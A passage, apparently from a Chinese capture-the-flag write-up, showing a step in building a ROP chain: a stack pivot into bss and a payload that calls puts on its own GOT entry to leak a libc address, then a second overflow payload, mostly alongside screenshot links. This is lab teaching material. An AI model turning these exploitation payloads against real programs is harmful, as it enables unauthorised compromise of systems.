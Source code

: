 [![](assets/1701606597-d8042a88f280a703f9dcfb4f47d562df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170301-f1968a92-845e-1.png)

rsp调试正常后，那么我们下一次则可以进行rop链构造

```plain
#puts(puts_got)
pl = p64(bss6+0x20+0x10)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main) #3
```

​`bss6+0x20`​基础上再加0x10（固定模板）

[![](assets/1701606597-e9a85b45c1025b963df6fcc54ca4f7f7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170308-f5ee2db6-845e-1.png)

‍

[![](assets/1701606597-11e0ee2cc2e074b08bb78e7bfcf73258.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170312-f84f2790-845e-1.png)

```plain
pl = b'a'*0x20+p64(bss6+0x40)+p64(read) #4
```

[![](assets/1701606597-b46786b4d9f94d1e8a9ad19d7a3f0904.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170320-fd66d714-845e-1.png)
